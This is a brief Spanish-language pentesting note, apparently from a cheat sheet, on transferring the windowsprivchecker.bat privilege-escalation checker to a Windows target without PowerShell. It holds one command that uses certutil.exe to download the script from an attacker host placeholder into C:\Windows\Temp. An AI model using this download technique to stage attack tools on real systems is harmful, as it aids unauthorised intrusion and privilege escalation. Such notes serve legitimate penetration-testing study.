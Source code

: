 
## windowsprivchecker.bat
Utilizado para Windows sin Powershell
Pasar a la maquina 
certutil.exe -urlcache -split -f "http://$IP/windowsprivchecker.bat" C:\Windows\Temp\privesc.bat < recomendacion por permisos de escritura

